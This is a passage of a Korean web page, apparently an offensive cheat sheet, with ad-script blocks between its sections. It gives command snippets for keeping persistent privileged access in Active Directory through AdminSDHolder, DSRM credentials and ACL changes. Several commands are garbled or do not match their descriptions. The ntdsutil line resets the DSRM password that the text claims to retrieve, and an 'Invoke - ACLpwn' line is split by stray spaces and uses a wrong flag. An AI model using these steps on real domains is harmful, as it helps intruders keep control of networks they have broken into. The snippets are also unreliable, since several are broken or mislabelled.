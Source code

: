 <script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

- AdminSDHolder 그룹 설정을 수정합니다.

```js
Set-ADObject -Identity "CN=AdminSDHolder,CN=System,DC=<도메인>,DC=com" -Replace @{adminCount=1}
```

2. 변경 사항이 전파되도록 상위 권한을 유지합니다.

```js
Set-ADUser -Identity <사용자이름> -Replace @{adminCount=1}
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# DSRM 자격 증명

- 도메인 컨트롤러에서 DSRM 자격 증명을 검색합니다.

```js
ntdsutil "set dsrm password" "reset password on server <서버명>" "quit"
```

2. 이 자격 증명을 사용하여 디렉터리 서비스 복원 모드(Directory Services Restore Mode)에서 DC에 액세스합니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# ACL 지속성

- 접근을 유지하기 위해 ACL을 수정하세요.

```js
Invoke - ACLpwn - Domain < 도메인 > -Principal < 사용자 > -AddFullControl;
```
